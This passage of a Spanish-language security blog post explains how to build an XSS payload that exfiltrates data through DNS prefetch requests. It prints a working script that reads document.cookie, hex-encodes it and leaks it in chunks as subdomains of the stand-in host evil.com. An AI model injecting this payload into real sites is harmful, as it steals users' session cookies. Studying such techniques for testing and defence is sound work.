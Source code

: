 ### Concatenación

Otro problema que no teníamos contemplado fue que la concatenación mediante '+' no funcionaba (al menos en Firefox) ya que el propio navegador sanitizaba este carácter de la URL en la respuesta.
{: style="text-align: justify;"}

[![Test XSS Simple ](https://donttouchmy.net/wp-content/uploads/2019/01/Screenshot-2019-01-18-at-08.24.10.png)\
](https://donttouchmy.net/wp-content/uploads/2019/01/Screenshot-2019-01-18-at-08.24.10.png)

[![XSS: Concatenación con + no funciona](https://donttouchmy.net/wp-content/uploads/2019/01/Screenshot-2019-01-18-at-08.24.19.png)](https://donttouchmy.net/wp-content/uploads/2019/01/Screenshot-2019-01-18-at-08.24.19.png)

Pero como siempre, hay una manera de bypassar la restricción... .concat()
{: style="text-align: justify;"}

[![XSS: Ejecución de XSS de test](https://donttouchmy.net/wp-content/uploads/2019/01/Screenshot-2019-01-18-at-20.40.05-1024x429.png)](https://donttouchmy.net/wp-content/uploads/2019/01/Screenshot-2019-01-18-at-20.40.05.png)[![XSS: solución a concatenación](https://donttouchmy.net/wp-content/uploads/2019/01/Screenshot-2019-01-18-at-20.40.24.png)](https://donttouchmy.net/wp-content/uploads/2019/01/Screenshot-2019-01-18-at-20.40.24.png)

Perfecto.

### Sesión y limite de caracteres

El último problema fue que sólo teníamos 63 caracteres como máximo para exfiltrar datos. **Estos 63 caracteres vienen** dados de que el protocolo DNS sólo permite 63 caracteres por subdominio. Así pues, para poder exfiltrar cadenas de texto mayores a 63 caracteres, necesitamos un *loop *que construya e inyecte tantos tag *<label>* como sea necesario. 
{: style="text-align: justify;"}

Además, tenemos que poder relacionar las llamadas DNS relativas a una misma ejecución. Para este punto con generar una string aleatoria de sesión deberíamos tener suficiente. 
{: style="text-align: justify;"}

BRBRRBRBRBRBRBR!

[![XSS DNS Exfiltrator](https://donttouchmy.net/wp-content/uploads/2019/01/Cool-Painted-Kitchen-Aid-Mixer-Art1-240x300.jpg)](https://donttouchmy.net/wp-content/uploads/2019/01/Cool-Painted-Kitchen-Aid-Mixer-Art1.jpg)

DING!
```
<script>t=40;dm='evil.com';k2="-xss1";d=document;c=d.cookie;function v(dm, d, c){m="";for(var x in c){k=Math.random().toString(36).substring(7);m=m.concat(c.charCodeAt(x).toString(16).padStart(2,0))};iter=[];p=0;x=0;it=(m.length/t);for(i=[];i.length<=it;){i.push(1);iter.push(m.slice(iter.length*t,i.length*t));};for(var o in iter){l=d.createElement('link');l.rel='dns-prefetch';l.href='http://XXX3.YYY3.SESSION3.DOMAIN'.replace('XXX3',iter[o]).replace('YYY3',o).replace('SESSION3',k.concat(k2)).replace('DOMAIN',dm);h=d.getElementsByTagName('head')[0];h.appendChild(l);};};v(dm,d,c)</script>
```
Si hacemos una prueba manual, veréis cómo inyectamos varias cabeceras <link> al cargar la página. 
{: style="text-align: justify;"}

Servidor DNS
------------
